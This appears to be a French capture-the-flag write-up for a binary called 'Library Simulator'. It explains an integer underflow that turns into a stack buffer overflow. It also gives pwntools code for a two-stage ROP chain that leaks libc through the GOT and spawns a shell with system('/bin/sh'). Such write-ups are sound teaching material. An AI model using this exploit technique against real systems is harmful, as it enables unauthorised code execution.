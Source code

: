 # pwn - Library Simulator

La vulnérabilité se trouve dans le code qui gère "Borrow a book" et "Return a book". 
```c
unsigned int title_length;
char v5[32];

// [...]
if ( v6 == 'r' )
    {
      printf("Title length: ");
      __isoc99_scanf("%d", &title_length); // [1]
      getchar();
      if ( title_length > 0x1F ) // [2]
      {
LABEL_11:
        puts("The title is too long");
      }
      else
      {
        printf("Title: ");
        read_input(v5, title_length - 1); // [3]
        return_book((__int64)v5);
      }
```

En [1], l'utilisateur entre la taille de son entrée. Le programme vérifie que
la taille est bien inférieure à la taille buffer [2], puis lit `title_length - 1` octets [3].
Il y a un integer overflow au niveau du `read_input` : si `title_lenght` vaut
0, alors `title_length - 1` vaudra 0xffffffff.
Cet integer overflow entraine ainsi un buffer overflow.

```c
void __fastcall read_input(_BYTE *a1, __int64 a2)
{
  _BYTE *v2; // rax
  __int64 n; // [rsp+0h] [rbp-20h]
  char v6; // [rsp+1Fh] [rbp-1h]

  n = a2;
  if ( a2 )
  {
    while ( n-- )
    {
      v6 = getchar();
      if ( v6 == 10 )
      {
        *a1 = 0;
        return;
      }
      v2 = a1++;
      *v2 = v6;
    }
  }
}
```

Le programme ne contient pas de canary et a été compilé sans PIE. Il est donc
possible d'utiliser les gadgets du programme pour la ropchain.
```
[*] './library_simulator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
```

L'objectif est d'obtenir l'adresse de la libc pour pouvoir exécuter
`system("/bin/sh")`.

La GOT de notre programme contient des pointeurs vers des fonctions de la libc,
il est donc possible de lire ces entrées avec la ropchain pour obtenir
l'adresse de la libc. Il faut ensuite rappeler la fonction `main` de notre
programme pour exécuter une seconde ropchain :
```py
rop = ROP(exe)
rop.call(exe.plt["puts"], [exe.got["puts"]]) # leak libc puts address
rop.call("main") # ret2main

# exploit buffer overflow and execute the ropchain
r.sendlineafter(b"> ", b"b")
r.sendlineafter(b"length: ", b"0")
r.sendlineafter(b"Title: ", b"A"*0x38 + rop.chain())

# read the leak
r.recvuntil(b"not found\n")
leak = r.recvline()[:-1]
libc.address = u64(leak.ljust(8, b"\x00")) - libc.sym["puts"]
```

Maintenant que l'addresse de la libc est connue, il est possible d'appeler la fonction `system` :

```py
rop = ROP(libc)
rop.call(rop.find_gadget(["ret"])) # movaps issue
rop.call(libc.sym["system"], [next(libc.search(b"/bin/sh\x00"))])

r.sendlineafter(b"> ", b"b")
r.sendlineafter(b"length: ", b"0")
r.sendlineafter(b"Title: ", b"A"*0x38 + rop.chain())

r.sendline(b"cat /challenge/flag.txt")
```

